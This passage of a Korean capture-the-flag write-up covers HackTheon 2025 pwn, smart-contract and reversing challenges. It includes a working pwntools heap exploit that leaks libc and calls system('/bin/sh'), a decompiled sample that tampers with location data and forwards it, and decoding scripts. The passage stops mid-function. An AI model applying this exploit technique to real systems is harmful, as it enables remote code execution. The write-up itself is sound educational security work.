      v4 = i;
      break;
    }
  }
  if ( v4 == -1 )
    return 0LL;
  for ( j = 0; j < CHUNK_CNT[v4]; ++j )
  {
    if ( ((1 << (j % 8)) & BITMAPS[v4][j / 8]) == 0 )
    {
      BITMAPS[v4][j / 8] |= 1 << (j % 8);
      return (j * CHUNK_SIZES[v4] + CHUNK_MAPS[v4]);
    }
  }
  return 0LL;
}

unsigned __int64 __fastcall custom_free(head_node *a1)
{
  int v2; // [rsp+Ch] [rbp-34h]
  unsigned __int64 v3; // [rsp+20h] [rbp-20h]
  int i; // [rsp+2Ch] [rbp-14h]

  if ( a1 )
  {
    for ( i = 0; i < 9; ++i )
    {
      v3 = CHUNK_MAPS[i];
      if ( a1 >= v3 && a1 < CHUNK_CNT[i] * CHUNK_SIZES[i] + v3 )
      {
        v2 = (a1 - v3) / CHUNK_SIZES[i];
        BITMAPS[i][v2 / 8] &= ~(1 << (v2 % 8));
        return __readfsqword(0x28u);
      }
    }
  }
  return __readfsqword(0x28u);
}
```

또한, 할당 및 해제 방식을 보면, size에 맞는 index의 bitmap을 순회하여 해제하고 할당하는 것을 확인할 수 있습니다. 따라서, bitmap의 주소를 조작하면 다른 특정 size의 힙 layout에 대하여 **할당/해제 여부를 조작할 수 있습니다.**

```c
__int64 __fastcall save_data(raw_data *a1, data *a2)
{
  int v2; // ecx
  int v3; // ecx
  char *addr; // [rsp+8h] [rbp-38h]
  int total_size; // [rsp+14h] [rbp-2Ch]
  int v7; // [rsp+14h] [rbp-2Ch]
  int v8; // [rsp+14h] [rbp-2Ch]

  total_size = a1->total_size;
  if ( (a2->contents_len + a2->name + a1->total_size) <= 0xFFF )
  {
    if ( memchr(a2->name_len, ',', a2->name) || memchr(a2->contents, ',', a2->contents_len) )
    {
      return -1879048188;
    }
    else
    {
      addr = get_addr(a1->buf);
      v2 = total_size;
      v7 = total_size + 1;
      addr[v2] = ',';
      memcpy(&addr[v7], a2->name_len, a2->name);
      v3 = v7 + a2->name;
      v8 = v3 + 1;
      addr[v3] = '=';
      memcpy(&addr[v3 + 1], a2->contents, a2->contents_len);
      a1->total_size = v8 + a2->contents_len;
      return 0;
    }
  }
  else
  {
    return -1879048191;
  }
}
```

또한 instruction 4번에 해당하는 기능을 수행하면 function table을 타고 들어가 위 함수가 실행됩니다.

```c
__int64 __fastcall vm_obj_constructor(int a1)
{
  object *obj; // [rsp+10h] [rbp-20h]
  int v3; // [rsp+18h] [rbp-18h]
  int idx; // [rsp+1Ch] [rbp-14h]

  idx = get_obj();
  if ( idx >= 0 )
  {
    obj = custom_memory_alloc(0x18u);
    if ( obj )
    {
      if ( a1 )
      {
        if ( a1 != 1 )
          return 0x90000003;
        obj->ftable = &off_6010;
      }
      else
      {
        obj->ftable = &off_6030;
      }
      v3 = (*obj->ftable)(&obj->raw_data);  //call alloc_data if obj type(a1) == 0 
      if ( v3 >= 0 )
      {
        g_obj_list[idx] = obj;
        return idx;
      }
      else
      {
        custom_free(obj);
        return v3;
      }
    }
    else
    {
      return 0x90000000;
    }
  }
  else
  {
    return idx;
  }
}

__int64 __fastcall alloc_data(raw_data **a1)
{
  void *s; // [rsp+10h] [rbp-30h]
  raw_data *v3; // [rsp+18h] [rbp-28h]

  v3 = custom_memory_alloc(0x10u);
  if ( v3 && (s = custom_memory_alloc(0x1000u)) != 0LL )
  {
    memset(s, 0, 0x1000uLL);
    v3->buf = s;
    v3->total_size = 0;
    *a1 = v3;
    return 0;
  }
  else
  {
    if ( v3 )
      custom_free(v3);
    return -1879048192;
  }
}
```

그러나, object를 할당할 때, data를 할당하는 걸 보면, `0x1000`의 크기로 공간을 할당합니다. 때문에 `save_data`함수의 `','`, `'='`를 삽입하는 로직에 의해 `0xfff`의 size 제한이 있음에도 불구하고 1bytes의 overflow가 발생합니다.

mmap으로 할당된 chunk들은 header 등의 데이터 정보 없이 바로 뒤에 다음으로 할당된 chunk가 배치되므로, 뒤 chunk의 1byte를 overwrite할 수 있는 것입니다.

```c
__int64 __fastcall vm_enqueue_data(char *buf, unsigned int size)
{
  unsigned int v3; // [rsp+8h] [rbp-48h]
  unsigned int v4; // [rsp+10h] [rbp-40h]
  unsigned int n; // [rsp+1Ch] [rbp-34h]
  node *next; // [rsp+20h] [rbp-30h]
  head_node *node_chain; // [rsp+28h] [rbp-28h]
  unsigned int sze; // [rsp+34h] [rbp-1Ch]
  char *src; // [rsp+38h] [rbp-18h]

  src = buf;
  sze = size;
  if ( size )
  {
    node_chain = create_node_chain(size);
    if ( node_chain )
    {
      node_chain->total_size = size;
      if ( size >= 0xFF0uLL )
        v4 = 0xFF0;
      else
        v4 = size;
      n = v4;                                   // Copy data to first node (max 4080 bytes)
      memcpy(node_chain->buffer, buf, v4);
      for ( next = node_chain->next; next; next = next->next )// Copy remaining data to linked nodes (max 4088 bytes each)
      {
        sze -= n;
        src += n;
        if ( sze >= 0xFF8uLL )
          v3 = 0xFF8;
        else
          v3 = sze;
        n = v3;
        memcpy(next->buffer, src, v3);
      }
      return add_to_queue(node_chain);          // Add node chain to queue and return result
    }
    else
    {
      return 0x80000003;                        // Return 0x80000003 if node chain creation failed
    }
  }
  else
  {
    return 0x80000004;                          // Return 0x80000004 if size is 0
  }
}

head_node *__fastcall create_node_chain(unsigned int a1)
{
  int v2; // [rsp+8h] [rbp-48h]
  unsigned int v3; // [rsp+10h] [rbp-40h]
  node *next; // [rsp+18h] [rbp-38h]
  head_node *first_node; // [rsp+20h] [rbp-30h]
  head_node *v6; // [rsp+28h] [rbp-28h]
  unsigned int v7; // [rsp+3Ch] [rbp-14h]

  if ( a1 >= 0xFF0uLL )
    v3 = 0xFF0;
  else
    v3 = a1;
  first_node = custom_memory_alloc(v3 + 0x10);
  if ( first_node )
  {
    v7 = a1 - v3;
    v6 = first_node;
    while ( v7 )
    {
      if ( v7 >= 0xFF8uLL )
        v2 = 0xFF8;
      else
        v2 = v7;
      next = custom_memory_alloc(v2 + 8);
      if ( !next )
        goto LABEL_13;
      v6->next = next;
      next->next = 0LL;
      v6 = next;
      v7 -= v2;
    }
    return first_node;
  }
  else
  {
LABEL_13:
    free_node_chain(first_node);
    return 0LL;
  }
}

__int64 __fastcall vm_reassemble_data_from_queue(void **ptr)
{
  unsigned int next_chunk_size; // [rsp+10h] [rbp-50h]
  bool has_more_data; // [rsp+1Fh] [rbp-41h]
  unsigned int current_chunk_size; // [rsp+20h] [rbp-40h]
  char *dest; // [rsp+28h] [rbp-38h]
  unsigned int total_size; // [rsp+30h] [rbp-30h]
  unsigned int chunk_size; // [rsp+34h] [rbp-2Ch]
  node *current_node; // [rsp+38h] [rbp-28h]
  head_node *node; // [rsp+40h] [rbp-20h]

  node = dequeue();
  if ( node )
  {
    total_size = node->total_size;
    *ptr = malloc(total_size);
    if ( total_size >= 0xFF0uLL )
      current_chunk_size = 0xFF0;
    else
      current_chunk_size = total_size;
    chunk_size = current_chunk_size;
    memcpy(*ptr, node->buffer, current_chunk_size);
    dest = *ptr;
    for ( current_node = get_addr(node->next); ; current_node = get_addr(current_node->next) )
    {
      has_more_data = 0;
      if ( current_node )
        has_more_data = total_size != 0;
      if ( !has_more_data )
        break;
      total_size -= chunk_size;
      dest += chunk_size;
      if ( total_size >= 0xFF8uLL )
        next_chunk_size = 4088;
      else
        next_chunk_size = total_size;
      chunk_size = next_chunk_size;
      memcpy(dest, current_node->buffer, next_chunk_size);
    }
    free_node_chain(node);
    return node->total_size;
  }
  else
  {
    return 0x80000001;
  }
}
```

또한 문제에서는 1, 2번 instrction을 통해서 data를 enqueue하거나 dequeue할 수 있습니다. 

이 때 data와 header를 포함한 크기가 0x1000을 넘어가면 이 data를 node로 연결하는 구조로 코드가 작성돼있습니다. 이 때 first node와 이후 연결되는 node는 구조가 조금 다른데, first node에 total size를 기록하여 이후 연결되는 node에는 따로 size를 기록하지 않습니다.

위 기능을 통해 0x1000의 크기로 node를 할당할 수 있으며. 첫 멤버변수로 next node pointer를 가지는 것을 제외하면 모두 data buffer를 갖는(즉, size 기록이 없는) node도 생성할 수 있습니다.

앞서 이야기한 두 취약점과 기능들을 토대로 아래와 같은 exploit scenario를 짜서 exploit 할 수 있습니다.

1. 0번 type의 object를 생성
2. 1번 instruction을 활용해 0x1000보다 큰 크기의 아무 data를 enqueue하여 `node A -> node B` 형태의 구조를 생성.
3. `save_data` 기능에서 발생하는 1byte overflow를 통하여 2번 step에서 생성한 `node A`의 next pointer를 변조
4. `reassemble_data_from_queue` 기능은 next pointer를 참조하여 버퍼를 연결하여 출력하므로, 적절하게 data를 저장하여 node의 pointer(mmap 영역)를 leak. => libc leak.
5. 0번 type의 object를 한 번 더 생성 (0x18bytes)
6. `size <= 0x10`인 node를 생성
7. `size <= 0x10`인 bitmap의 주소를 `size <= 0x20`인 bitmap의 주소로 조작
8. `reassemble_data_from_queue`를 호출하여 `size <= 0x20`인 bitmap에 존재하는 object가 할당 해제된 것으로 조작.
9. bitmap을 원래대로 되돌리고, size기록이 없는 node를 통해 UAF를 유발하여 구조체를 적절히 조작. 
10. 해당 object를 destruct할 때의 인자와 ftable을 적절히 조절할 수 있으므로 `system("/bin/sh")`를 호출하여 shell 획득!

##### ex.py
```py
from pwn import *

e = ELF('./storage')
# p = e.process()
p = remote('0', 34284)

ENQUEUE     = 1
REASSEMBLE  = 2
CREATE      = 3
SAVE        = 4
LOAD        = 5
DELETE      = 6

def send_packet(inst: int, cnt: int, bufs: list) -> None:
    szes = [len(buf) for buf in bufs]
    p.send(p32(inst) + p32(cnt))
    for i in range(cnt):
        p.send(p16(szes[i]))
        # for j in range(szes[i]):
        #     p.send(bufs[i][j])
        p.send(bufs[i])

def enqueue_data(buf: bytes) -> None:
    send_packet(ENQUEUE, 1, [buf])

def reassemble_data() -> None: 
    send_packet(REASSEMBLE, 0, [])

def create_obj(obj_type: int) -> None:
    send_packet(CREATE, 1, [p32(obj_type)])

def save_data(obj_idx: int, name: bytes, content: bytes) -> None:
    send_packet(SAVE, 3, [p32(obj_idx), name, content])

def load_data(obj_idx: int) -> None:
    send_packet(LOAD, 1, [p32(obj_idx)])

def delete_obj(obj_idx: int) -> None:
    send_packet(DELETE, 1, [p32(obj_idx)])

def bitmap_overwrap(buf: bytes) -> None:
    save_data(0x111, b'A'*0xffee, p64(0) + p64(0x51) + buf)

create_obj(0)
d1 = b'A'*0xff0
d2 = b'\0'*0xf8 + b'B'*0xf00
d3 = b'C'
enqueue_data(d1+d2)
enqueue_data(d1+d3)
# pause()
save_data(0, b'A', b'B')
# pause()
save_data(0, b'A'*0xf0c, b'B'*0xee + b'\xf0')
load_data(0)
reassemble_data()
p.recvuntil(b'42'*0xf00)

mmap_leak   = u64(eval(b'p64(0x%s)'%p.recv(12))[::-1]) // 0x10000 - 0x10
libc        = mmap_leak + 0x43000
system      = libc + 0x50d70
binsh       = libc + 0x1d8678

log.info('[MMAP]  %#x'%mmap_leak)
log.info('[GLIBC] %#x'%libc)
reassemble_data()
delete_obj(0)
p.recvuntil(b'result : 0\n')
enqueue_data(d1+d3)
p.recvuntil(b'result : 0\n')
create_obj(0)
p.recvuntil(b'result : 0\n')
bitmap_overwrap(b'\x20')
reassemble_data()
pay = p64(mmap_leak + 0x410) + p64(binsh) + p64(system)
enqueue_data(d1+pay)
p.recvuntil(b'result : 0\n')
delete_obj(0)
p.interactive()
```

flag: upsolved after the end of CTF

#### contract

문제 디렉토리에는 `src/`와 `script/` 폴더가 존재하며, Foundry 기반의 배포 스크립트와 Solidity 컨트랙트 코드들이 포함되어 있습니다.

`src/WETH.sol` 파일을 확인하면 다음과 같은 코드를 볼 수 있습니다:

```js
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.20;
import {Script} from "forge-std/Script.sol";
import "forge-std/console.sol";
import { ERC20 } from "@openzeppelin/contracts/token/ERC20/ERC20.sol";
import { Ownable } from "@openzeppelin/contracts/access/Ownable.sol";

contract WETH is ERC20, Ownable {
    constructor() ERC20("Wrapping ETH", "WETH") Ownable(msg.sender) {
    }

    function mint(address sender, uint256 amount) external onlyOwner {
        _mint(sender, amount);
    }

    function flag() external returns (string memory) {
        if(this.balanceOf(msg.sender) > 100000000) {
            _burn(msg.sender, 100000000);
            return "FLAG{THIS_IS_FAKE_FLAG}";
        }
        return "";
    }
}
```

컨트랙트의 `flag()` 함수는 특정 조건을 만족하면 플래그를 반환합니다. 하지만 주목할 점은 플래그 문자열이 컨트랙트 바이트코드에 평문으로 포함되어 있다는 점입니다.

이더리움과 같은 퍼블릭 블록체인에서는 배포된 컨트랙트의 바이트코드를 누구나 확인할 수 있기 때문에, 조건을 만족시키지 않고도 해당 문자열을 얻는 것이 가능합니다.

먼저 `nc` 명령어로 문제 서버에 접속하여 WETH 컨트랙트의 주소를 획득합니다:

```sh
$ nc hacktheon2025-contract-nlb-1655575dfb7932a4.elb.ap-northeast-2.amazonaws.com 12455
...
WETH address: 0x933190225cfB0985bF03869d85DaC7230EFDF831
```

이제 Foundry의 `cast` 명령어를 사용하여 해당 컨트랙트의 바이트코드를 조회한 뒤, 평문으로 디코딩하여 플래그를 검색합니다:

```sh
$ cast code 0x933190225cfB0985bF03869d85DaC7230EFDF831 \
  --rpc-url http://3.34.42.187:41106/ | xxd -r -p | grep FLAG{
```
위 명령어는 다음과 같은 절차를 따릅니다:

- cast code로 바이트코드 조회
- `xxd -r -p`로 바이너리 디코딩
- `grep`으로 문자열 내 포함된 플래그 검색



flag: `FLAG{5e79b1a8126395e8537f006739860a7634cd62dc}`

### Rev

#### I love reversing

infect.exe라는 PyInstaller로 패키징된 Python exe 실행 파일이 제공됩니다.

[pyinstallerextractor](https://sourceforge.net/projects/pyinstallerextractor/)를 활용해서 .exe 파일 내부에서 .pyc 파일을 추출할 수 있었고, 주요 로직이 포함된 infect.pyc 파일을 확보했습니다.



[pylingual](https://pylingual.io/)를 이용해서 .pyc decompile을 수행했습니다.
- https://pylingual.io/view_chimera?identifier=176d14677bd8fb504f10c48894cd090d59610eeede34d39ffd01fcf0ca323790

```py
# Decompiled with PyLingual (https://pylingual.io)
# Internal filename: infect.py
# Bytecode version: 3.12.0rc2 (3531)
# Source timestamp: 1970-01-01 00:00:00 UTC (0)

import requests
from flask import Flask, request, jsonify
app = Flask(__name__)

def infect(location_data):
    location_data['latitude'] += 2.593627
    location_data['longitude'] += 2.593627
    return location_data

@app.route('/location_data', methods=['POST'])
def location_data():
    location_data = request.json
    print('Received data from attack instruction PC:', location_data)
    location_data = infect(location_data)
    url = 'http://192.168.101.101:4653/location_data'
    response = requests.post(url, json=location_data)
    print('Response from ship node:', response.text)
    return jsonify({'message': 'Data forwarded to ship node successfully!'})
if __name__ == '__main__':
    app.run(host='0.0.0.0', port=4653)
```

정답은 FLAG{}에 2.593627 상수를 감싸주면 됩니다.

flag : FLAG{2.593627}

#### Barcode

barcode와 flag.barcode 파일이 제공된다. `./barcode <hex>` 입력을 통해 아래 output을 만들면 됩니다.

```
        
 ****** 
 *      
 ****** 
 *      
 *      
 *      
        
        
 *      
 *      
 *      
 *      
 *      
 ****** 
        
        
  ****  
 *    * 
 ****** 
 *    * 
 *    * 
 *    * 
        
        
  ****  
 *    * 
 *      
 *  *** 
 *    * 
  ****  
        
```

flag.barcode는 '*'(1)와 ' '(0)으로 구성된 ASCII 바코드 이미지로 제공됩니다. 8x8 글자씩 잘려 있는 블록들로 이루어져 있으며, 각 블록은 8×8=64비트의 정보를 표현한다. 각 블록을 little endian 값으로 추출하여 사용합니다.
첫 번째 블록은 값 그대로 사용하고, 이후 블록은 각 인덱스에 대해 inverse를 취한 후 직전 결과와 XOR 연산을 수행합니다.

아래 스크립트를 통해서 각 8×8 블록의 문자 '*'는 1, ' '는 0 으로 해석해 64비트 정수로 변환합니다.
```py
#!/usr/bin/env python3
import sys

def load_bitmap(path):
    with open(path, 'r', encoding='utf-8') as f:
        lines = [l.rstrip('\n') for l in f]
    pat = []
    for line in lines:
        if len(line) >= 8 and set(line[:8]) <= {'*', ' '}:
            pat.append(line[:8])
    return pat

def blocks_from_lines(lines):
    return [lines[i:i+8] for i in range(0, len(lines), 8)]

def block_to_int(block):
    bits = []
    for row in block:
        for c in row:
            bits.append(1 if c == '*' else 0)
    val = 0
    for k, b in enumerate(bits):
        val |= (b << k)
    return val

def main():
    path = sys.argv[1] if len(sys.argv) > 1 else 'flag.barcode'
    lines = load_bitmap(path)
    blks = blocks_from_lines(lines)
    for blk in blks:
        if len(blk) < 8:
            continue
        v = block_to_int(blk)
        print(f'0x{v:016x}')

if __name__ == '__main__':
    main()
```

이제 XOR, NOT을 통해 각 블록에 대해 역연산을 취해주면 됩니다. 여기서 취하는 연산은 stteram cipher 방식으로 이전 상태값이 다음 블록의 디코딩에 영향을 주므로 잘 계산해주어야 합니다.
```py
#!/usr/bin/env python3
import sys

def reencrypt(blocks):
    mask = (1<<64) - 1
    E = [blocks[0] & mask]
    for D in blocks[1:]:
        E.append(((~D) & mask) ^ E[-1])
    return E

def main():
    if len(sys.argv) < 2:
        sys.exit(1)

    D_blocks = [int(h,16) for h in sys.argv[1:]]
    E_blocks = reencrypt(D_blocks)

    out = '0x' + ''.join(f'{e:016x}' for e in E_blocks)
    print(out)

if __name__ == '__main__':
    main()
```

FLAG{0x000202027e027e00ff83ffff83ff83ff003e424202424000fffdffcfffff83ff}

#### Pyrus

`pyrus-0.1.0-cp310-cp310-manylinux_2_34_x86_64.zip` 파일이 주어집니다. 압축을 해제하면 `.whl` 파일이 있으며, 이를 `python3 -m wheel unpack` 명령어로 unpack하여 Python에서 import 가능한 `.so` 파일을 추출할 수 있습니다.

```sh
$ python3 -m wheel unpack pyrus-0.1.0-cp310-cp310-manylinux_2_34_x86_64.whl
$ file pyrus.cpython-310-x86_64-linux-gnu.so
pyrus.cpython-310-x86_64-linux-gnu.so: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, not stripped
```

`.so` 파일은 Python에서 바로 import할 수 있는 native module입니다. Python REPL에서 내장 `help` 함수를 통해 모듈 인터페이스를 확인할 수 있습니다:

```python
import pyrus
help(pyrus)
```

출력 결과:

```
NAME
    pyrus - A Python module implemented in Rust.

PACKAGE CONTENTS
    pyrus

CLASSES
    builtins.object
        builtins.Pyrus

    class Pyrus(object)
     |  Methods defined here:
     |
     |  encode(self, /, input)
     |  get_input(self, /)
     |  get_output(self, /)
     |  get_secret(self, /)
     |  get_seed(self, /)
     |  set_input(self, /, input)
     |  set_seed(self, /, seed)
```

`.so` 파일을 리버싱하면 다음과 같은 정보를 확인할 수 있습니다:

- `get_seed`: 내부적으로 사용하는 LCG 시드 값을 반환합니다.
- `get_secret`: 시드를 기반으로 스트림 암호 방식으로 인코딩된 문자열을 반환합니다.

따라서 `get_seed()`로 seed를 얻은 뒤, `get_secret()`의 역연산을 구현하면 플래그를 추출할 수 있습니다.

```python
from pyrus import Pyrus

plaintext = b"12341241234"

p = Pyrus()
seed = p.get_seed()
print("seed", seed)
lib_enc = p.encode(plaintext.decode())

def encode_ref(data: bytes, seed: int, pad=0):
    out = []
    start = True
    for b in data:
        seed  = (seed * 0x02FFB56 + 0x0267FA4) & 0xFFFFFFFF   # LCG
        k     = (seed >> 16) & 0xFF
        out.append(f"{(pad + (b ^ k)) & 0xFF:02x}")
    return "".join(out)

pad = 3
py_enc = encode_ref(plaintext, seed, pad)
print("lib:", lib_enc)
print("py :", py_enc)
match = lib_enc == py_enc
print("match?", match)

secret = p.get_secret()

def decode_ref(hex_str: str, seed: int, pad: int = 0) -> bytes:
    if len(hex_str) & 1:
        raise ValueError("hex string length must be even")

    out = bytearray()
    it  = (int(hex_str[i:i + 2], 16) for i in range(0, len(hex_str), 2))

    for v in it:
        seed = (seed * 0x02FFB56 + 0x0267FA4) & 0xFFFFFFFF
        k    = (seed >> 16) & 0xFF

        b = (v - pad) & 0xFF
        out.append(b ^ k)

    return bytes(out)


print(decode_ref(secret, seed, pad))
```

결과 문자열이 printable한 것을 확인 할 수 있습니다. flag포맷인 `FLAG{*}`에 맞게 감싸면 flag입니다:

flag: `FLAG{a0b40748a66d458832a456ff86b43d85}`

#### Clock

ELF 64-bit LSB PIE 실행 파일이 주어집니다. 이 바이너리는 확장된 Brainfuck 인터프리터로, 총 8개의 명령어를 지원합니다:

```
["halt", ">", "<", ".", "+", "-", "[", "]"]
```

일반적인 Brainfuck과 달리 `+`, `-` 명령어에 immediate 값을 포함할 수 있어, 한 명령어로 셀의 값을 1 이상 증감시킬 수 있습니다.

##### 문제 조건

Brainfuck 메모리 셀에 다음 문자열을 정확히 작성하면, 로컬 파일로부터 플래그를 출력합니다:

```
2025 HackTheon Sejong
```

##### 명령어 인코딩 포맷

각 Brainfuck 명령어는 16비트 정수로 인코딩되며, 내부적으로 다음과 같은 `parse` 및 `error_check` 함수에 의해 해석됩니다:

```python
def error_check(original_input: int, bits_1_to_8: int):
    original_input = original_input & 0xFFFF  # enforce 16-bit unsigned
    bits_1_to_8 = bits_1_to_8 & 0xFFFF        # same as in C if HIBYTE used

    high_bit_from_bits = ((bits_1_to_8 >> 8) & 0xFF) & 1

    u8 = lambda x: x & 0xFF

    part1 = (
        u8(original_input >> 1) ^
        (u8(original_input) >> 2) ^
        (u8(original_input) >> 3) ^
        (u8(original_input) >> 4)
    )
    part2 = (
        part1 ^
        (u8(original_input) >> 5) ^
        (u8(original_input) >> 6)
    )
    part3 = (part2 & 1)

    result = (
        part3 ^
        ((u8(original_input) >> 7) & 1) ^
        ((original_input >> 8) & 1) ^  # HIBYTE(a1->original_input) & 1
        ((original_input & 0x0200) != 0) ^
        ((original_input & 0x0400) != 0) ^
        ((original_input & 0x0800) != 0) ^
        ((original_input & 0x1000) != 0) ^
        ((original_input & 0x2000) != 0) ^
        ((original_input & 0x4000) != 0) ^
        ((original_input >> 15) & 1) ^
        1
    )

    return high_bit_from_bits == (result & 1)
    
def parse(v2):
    original_input = v2 # 16 bit
    # flags == brainfuck op
    flags = (
        ((v2 >> 6)  & 0x78) |
        ((v2 >> 11) & 4)    |
        ( v2 >> 15)         |
        ((v2 >> 13) & 2)
    ) # 8 bit
    bits_1_to_8 = (v2 >> 1) | ((v2 & 1) << 8) # 16bit
    check = error_check(original_input, bits_1_to_8)
    return (flags, bits_1_to_8, check)


if __name__ == "__main__":
    target = 1 # index of  ["halt", ">", "<", ".", "+", "-", "[", "]"]
    v6 = 0
    for i in range(1 << 16):
        flags, bits_1_to_8, check = parse(i)
        # flag must be in 0 to 7
        final_check = check and (((flags & 0xff) & 3) == 1)
        # every loop checks this
        final_check = final_check and (((v6 ^ ((flags & 0xff) >> 2)) & 1) != 0)
        if v6 == 0:
            final_check = final_check and ((flags & 0xff) & 4 != 0)
            # update v6 to 1 and decode instr
        # else update v6 to 0

        op = (flags >> 3) & 0b1111
        final_check = final_check and (op == target)
        
        if target in [1, 2, 4, 5, 7]:
            target_imm = 0x1 # immediate value for each index
            final_check = final_check and ((bits_1_to_8 & 0xFF) == target_imm)
        if final_check:
            print(target, i, bits_1_to_8 & 0xFF, flags)

```

스크립트를 통해 각 명령어에 해당하는 16비트 정수 값을 추출할 수 있습니다. 유효한 명령어 매핑은 다음과 같습니다:

```
a = [40961, 41475, 41984, 42995, 43025, 44031, 44033, 45033]
d = ["halt", ">", "<", ".", "+", "-", "[", "]"]
```

예를 들어:
- `>`: 41475 (data pointer +1)
- `+`: 43025 (add 8)
- `-`: 44031 (add 1 → 실제로는 sub 255)

##### Brainfuck 프로그램 생성 방식

문자열 `"2025 HackTheon Sejong"`를 메모리에 저장하기 위해 다음과 같은 전략을 사용합니다:

- 각 문자에 대해 `+` × (ASCII // 8), `-` × (ASCII % 8)
- 각 셀마다 `>`로 이동
- 명령어 사이에 `32768` 입력 필요
- 프로그램 종료를 위해 `halt` 명령어(40961)와 `0` 추가

최종 payload 생성 스크립트는 다음과 같습니다:

```python
import pwn

a = [40961, 41475, 41984, 42995, 43025, 44031, 44033, 45033]
d = ["halt", ">", "<", ".", "+", "-", "[", "]"]

# + -> 4
# - -> 5
# > 41475 -> inc data ptr by 1
# + 43025 -> inc 8 (add 8)
# - 44031 -> inc 1 (sub 255)

trim = 32768

def encode_char(c):
    idx = ord(c)
    program = "+" * (idx // 8) + "-" * (idx % 8)
    return program

target_chars = "gnojeS noehTkcaH 5202"[::-1]
target_chars = target_chars

program = ""
for i in range(len(target_chars)):
    program += encode_char(target_chars[i])
    # program += "."
    if i != len(target_chars) - 1:
        program += ">"

raw_program = []
for i in range(len(program)):
    raw_program.append(a[d.index(program[i])])
    raw_program.append(trim)
        
# halt
raw_program.append(40961)
raw_program.append(0)

payload = "\n".join(str(c) for c in raw_program)

import pwn

tn = pwn.process("./clock")
tn.sendline(payload.encode())

tn.interactive()
```

대회 종료 후 문제를 풀이하였기 때문에 실제 플래그는 획득하지 못했지만, 위 스크립트를 통해 다음과 같이 fake flag를 출력하는 바이너리 동작을 확인할 수 있습니다:



#### Bridge

bridge.apk 파일이 제공됩니다. Jadx를 이용해서 분석을 수행했습니다.

naitive에서 encode, decode를 가져와서 사용하는 것을 확인할 수 있습니다.

```java
package com.hacktheon.bridge;

/* loaded from: classes2.dex */
public class BridgeLib {
    public static native String decode(String str);

    public static native String encode(String str);

    static {
        System.loadLibrary("bridge_lib");
    }
}
```

해당 apk를 apk-tool로 압축 해제하고, lib/libbridge_lib.so을 분석하였습니다.
내부에 `Java_com_hacktheon_bridge_BridgeLib_encode`, `Java_com_hacktheon_bridge_BridgeLib_decode` 함수가 존재합니다. 그리고 0x0000000000018680(encode), 0x00000000000189D0(decode) 함수에 실제 로직이 수행됩니다.

해당 코드들은 0x0000000000009CA2에 있는 table 값을 이용해서 연산을 수행합니다.
- `unsigned __int8 table[23] = {'b', 'r', 'i', 'd', 'g', 'e', '_', 'd', 'e', 'f', 'a', 'u', 'l', 't', '_', 'k', 'e', 'y', '_', '2', '0', '2', '5'};`

##### Encode
```c
_QWORD *__fastcall encode_(_QWORD *a1, unsigned __int8 *a2, __int64 a3)
{
  unsigned int v5; // ebx
  __int64 v6; // rcx
  int v7; // edx
  int v8; // esi
  int v9; // r8d
  int v10; // edi
  unsigned int v11; // ebx
  unsigned __int8 v12; // al
  unsigned __int8 *v13; // r14
  char v14; // bl
  unsigned __int64 v15; // rbp
  __int16 v16; // r12
  unsigned int v17; // r13d
  int v18; // eax
  int v19; // edx
  int v20; // ecx
  unsigned __int8 v21; // r13
  unsigned __int16 v22; // r13
  __int64 v23; // rax
  char v24; // al
  unsigned __int8 v25; // al
  __int128 v27; // [rsp+8h] [rbp-50h] BYREF
  unsigned __int64 v28; // [rsp+18h] [rbp-40h]
  _QWORD *v29; // [rsp+20h] [rbp-38h]

  if ( !a3 )
  {
    a1[1] = 0LL;
    a1[2] = 1LL;
    a1[3] = 0LL;
    goto LABEL_44;
  }
  v29 = a1;
  v5 = 0;
  v6 = 0LL;
  while ( 1 )
  {
    v7 = table[v6];
    if ( (v7 & 0x80u) != 0 )
      break;
    ++v6;
LABEL_4:
    v5 += v7;
    if ( v6 == 23 )
      goto LABEL_12;
  }
  v8 = v7 & 0x1F;
  v9 = table[v6 + 1] & 0x3F;
  if ( v7 <= 0xDFu )
  {
    v6 += 2LL;
    v7 = v9 | (v8 << 6);
    goto LABEL_4;
  }
  v10 = (v9 << 6) | table[v6 + 2] & 0x3F;
  if ( v7 < 0xF0u )
  {
    v6 += 3LL;
    v7 = (v8 << 12) | v10;
    goto LABEL_4;
  }
